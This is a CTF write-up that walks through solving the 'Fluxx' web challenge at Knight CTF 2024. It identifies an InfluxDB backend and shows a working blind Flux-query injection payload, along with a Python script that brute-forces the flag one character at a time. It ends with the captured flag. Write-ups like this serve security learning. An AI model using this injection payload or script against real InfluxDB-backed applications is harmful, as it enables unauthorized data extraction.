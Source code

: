 ```yaml
---
layout: post
title: "InfluxDB NoSQL blind SQL injection | Fluxx web CTF challenge writeup | Knight CTF 2024"
description: "Performing blind SQL injection in NoSQL with InfluxDB in a CTF challenge"
author: "Colleirose"
permalink: /influxdb-injection-nosql-injection-knightctf-2024
date: 2024-01-23
last_modified_at: 2024-01-23
---
```


This is the challenge:
<br/>
![Challenge named "Fluxx" with description "Recently I have made a simple app for monitoring and analyzing metrics, events, and real-time data. I used a database which is designed for handling high volumes of timestamped data. But I think its vulnerable find it and get the flag"](/assets/img/challenge fluxx.webp)

Based on the X-Powered-By header being Express on all pages and receiving a <code>Cannot GET /(requested url)</code> on non-existent URLs (e.g. <a href="http://66.228.53.87:9001/a" rel="noopener">66.228.53.87:9001/a</a>), I can infer this is a <a href="https://expressjs.com/" rel="noopener">Express.js</a> server.
<br/>
<img src="https://cdn.discordapp.com/attachments/1194841726163095565/1198507422340358154/image.png" alt="Response headers showing X-Powered-By: Express"/>

One of our team member finds <a href="https://book.hacktricks.xyz/pentesting-web/nosql-injection">book.hacktricks.xyz/pentesting-web/nosql-injection</a>, and using that cheatsheeet (which I recommend using because it is very useful), finds that visiting <code>http://66.228.53.87:9001/query?data='%20||%201==1//%20%20%20%20or%20%20%20%20'%20||%201==1%00%20%20%20%20%20or%20%20%20%20admin'%20||%20'a'=='a</code> creates an error saying <code>Expected RPAREN, got EOF</code>

I search this error online and learn that it's an error related to <a href="https://github.com/influxdata/influxdb" rel="noopener">InfluxDB</a>, which I haven't heard of until this challenge.
<br/>
<img src="/assets/img/expected rparen got eof error.webp" alt="DuckDuckGo search results for the error"/>

This also matches up with the challenge name and description:
<br/>
![Challenge named "Fluxx" with description "Recently I have made a simple app for monitoring and analyzing metrics, events, and real-time data. I used a database which is designed for handling high volumes of timestamped data. But I think its vulnerable find it and get the flag"](/assets/img/challenge fluxx.webp)

Searching about SQL injection in InfluxDB, I find <a href="https://rafa.hashnode.dev/influxdb-nosql-injection" rel="noopener">rafa.hashnode.dev/influxdb-nosql-injection</a>.

After facing some errors, I go back to the article I was copying this code off of and fix my code.

But this is very inefficient to do manually. I find a script on <a href="https://book.hacktricks.xyz/pentesting-web/nosql-injection#blind-nosql" rel="noopener">book.hacktricks.xyz/pentesting-web/nosql-injection#blind-nosql</a> that can automate this. It requires a bit of changes, but here's the working script, based on the Hacktricks resource:

```py
import requests, string

alphabet = string.ascii_lowercase + string.ascii_uppercase + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
for i in range(21):
    print("[i] Looking for char number "+str(i+1))
    for char in alphabet:
        r = requests.get("http://66.228.53.87:9001/query?data=%22)%20%7c%3e%20yield(name%3a%20%221337%22)%20%0d%0abuckets()%20%7c%3e%20filter(fn%3a%20(r)%20%3d%3e%20r.name%20%3d~%20%2f%5e" +flag+char+".*%2f%20and%20die(msg%3ar.name))%20%0d%0a%2f%2f")
        if (r.text != "[]"):
            flag += char
            print("[+] Flag: "+flag)
            break
```

The script then crashes with some error about the connection being aborted but tells me the correct string starts with K

<img src="/assets/img/influxdb knightctf challenge console output.webp" alt="Console output"/>

So I went back to Burp Suite and tried it again with the K

<img src="/assets/img/burp suite influxdb knightctf.webp" alt="Burp Suite output showing the flag as KCTF{gOUPqVWa0eUT2wF2ipzX3v5pxikvqYhxR9oL}"/>

The flag is <code>KCTF{gOUPqVWa0eUT2wF2ipzX3v5pxikvqYhxR9oL}</code> according to the output of this web request. This flag is correct when submitted:

<img src="/assets/img/fluxx challenge correct.webp" alt='Challenge showing "Correct" message after submitting flag'/>

This is the SQL injection payload with the URI parameters decoded. I don't fully understand what it does because I've never used NoSQL or InfluxDB before.

```
") |> yield(name: "1337") 
buckets() |> filter(fn: (r) => r.name =~ /^K.*/ and die(msg:r.name)) 
//
```

I don't know what the first line does, but the second line calls <code>buckets()</code> to list buckets and filters for buckets with a name that matches the regular expression <code>/^K.*/</code>. If it finds one, it dies with the bucket's name (in the output we got in Burp Suite, I'm not sure if some kind of syntax error or <code>die()</code> is what caused the error that included the flag, but it doesn't really matter). The third line is a comment.

In retrospect, maybe <code>/^.*/</code> would've worked fine as the regular expression.